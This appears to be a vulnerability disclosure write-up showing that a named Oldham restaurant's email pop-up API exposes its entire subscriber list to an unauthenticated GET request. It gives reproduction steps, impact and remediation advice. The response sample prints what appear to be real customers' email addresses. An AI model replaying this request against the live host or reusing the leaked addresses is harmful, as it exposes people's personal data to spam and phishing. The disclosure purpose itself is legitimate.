



 
## Target
 
[adanosburger.co.uk](https://adanosburger.co.uk): the website of Adanos Burger, a halal smashburger restaurant based in Oldham, UK.
 
Like many small/medium business sites, it runs a marketing pop-up to capture email addresses in exchange for a discount: as soon as a visitor lands on the page, a modal offers **"GET 10% OFF your first order"** in exchange for an email address.



## Summary
 
The pop-up submits the visitor's email to a backend API hosted separately from the main site, at `adanos-menu-sync.emergent.host`. The endpoint that handles this, `/api/subscribers`, accepts the submission via `POST`, but it also responds to a plain, **unauthenticated `GET` request on the same endpoint**, returning the **full list of every subscriber who ever claimed the discount**: email address, internal user ID, discount code, and timestamp.
 
No authentication, no authorization check, and no rate limiting protect this data. Anyone who notices the endpoint, by intercepting the pop-up's own request in a proxy, can simply switch the method from `POST` to `GET` and dump the entire subscriber database.
 
## Vulnerability Details
 
**Legitimate flow (claiming the discount):**
 
```
POST /api/subscribers HTTP/2
Host: adanos-menu-sync.emergent.host
Origin: https://adanosburger.co.uk
Content-Type: application/json
 
{"email":"jolodet663@digeros.com"}
```
 
```json
HTTP/2 200 OK
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
 
{
  "id": "eb4d8232-aea0-453a-9b68-f57c1c533604",
  "email": "jolodet663@digeros.com",
  "discount_code": "WELCOME10",
  "subscribed_at": "2026-11-08T20:26:02.847869Z"
}
```
 
This is the expected behavior: submit an email, get back a confirmation with a discount code.
 
**The bug: same endpoint, GET instead of POST, no auth required:**
 
```
GET /api/subscribers HTTP/2
Host: adanos-menu-sync.emergent.host
Origin: https://adanosburger.co.uk
```
 
```json
HTTP/2 200 OK
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
 
[
  {
    "id": "ee7c738a-1e39-48d3-b234-5065bbe606fd",
    "email": "nataliejenkins29@outlook.com",
    "discount_code": "WELCOME10",
    "subscribed_at": "2026-03-07T18:07:21.374007Z"
  },
  {
    "id": "ad2374ea-ca34-4988-869d-a8cfe8418306",
    "email": "neilnewtonanderson@live.co.uk",
    "discount_code": "WELCOME10",
    "subscribed_at": "2026-03-09T18:48:52.348019Z"
  },
  {
    "id": "b49b4a7e-ae98-4db2-acd0-de4cb3e54cd0",
    "email": "lisa-taylor123@hotmail.co.uk",
    "discount_code": "WELCOME10",
    "subscribed_at": "2026-03-10T20:21:35.064510Z"
  },
  {
    "id": "33680583-1877-41d3-8a4c-0df2a15dbb7c",
    "email": "rak35h@hotmail.co.ik",
    "discount_code": "WELCOME10",
    "subscribed_at": "2026-03-10T20:24:01.283594Z"
  }
  // ... response continues with every subscriber on record
]
```
 
No `Authorization` header, no cookie, no API key, no session, nothing but the bare `GET` request is required. The `Access-Control-Allow-Origin: *` header also means **any website on the internet** could fetch this data directly from a victim's browser via JavaScript, with no CORS restriction blocking it.
 
## Steps to Reproduce
 
1. Visit `https://adanosburger.co.uk` with an HTTP proxy (e.g. Burp Suite) running.


3. Submit any email address into the "GET 10% OFF" pop-up and intercept the resulting `POST /api/subscribers` request to `adanos-menu-sync.emergent.host`.



5. Send the request to Repeater, change the method from `POST` to `GET`, and remove the JSON body.
6. Send the request. Observe the response: a `200 OK` with a JSON array containing every subscriber's `id`, `email`, `discount_code`, and `subscribed_at` timestamp.



## Impact
 
- **Mass PII exposure:** every email address ever submitted through the discount pop-up is exposed to anyone who finds the endpoint, with no authentication of any kind.
- **Scale:** the response is not paginated in any way observed during testing, meaning the entire subscriber history can be dumped in a single request.
- **Spam / phishing risk:** the leaked list gives an attacker a ready-made, verified mailing list of real customers, usable for targeted phishing (e.g. fake "your 10% discount code expires today" emails referencing the real `discount_code` value).
- **Cross-origin exposure:** the permissive `Access-Control-Allow-Origin: *` header means a malicious third-party website could silently harvest this data from a visitor's browser, without needing to proxy or intercept anything directly, simply by issuing a `fetch()` call to the endpoint.
- **No sensitive credentials are exposed** (no passwords, no payment data observed in this endpoint), so this is classified as a broken access control / sensitive data exposure issue rather than a full account compromise.
## Remediation
 
1. Restrict `GET /api/subscribers` to authenticated, authorized staff/admin requests only, a public marketing endpoint should never expose a read path for the full subscriber list.
2. If a `GET` method isn't intended to be supported on this route at all, disable it explicitly at the router/framework level, rather than relying on the frontend only ever sending `POST`.
3. Set `Access-Control-Allow-Origin` to the site's actual origin(s), not `*`, especially on any endpoint handling personal data.
4. Apply rate limiting on `/api/subscribers` regardless of method, to slow down enumeration/scraping attempts.
5. Review whether other endpoints on `adanos-menu-sync.emergent.host` share the same pattern (method-based access control bypass), since this class of bug often repeats across an API built the same way.

-----
**Note:** This has to be one of the simplest bugs I've ever found, no payloads, no fuzzing, no chaining required. Just swapping `POST` for `GET` on the same URL was enough to dump every subscriber's email. A good reminder that impact doesn't always correlate with complexity: sometimes the biggest exposure is one HTTP verb away from a wide-open endpoint. If anything, that's exactly why it matters, if I could find it in two minutes with Burp, so could anyone else.
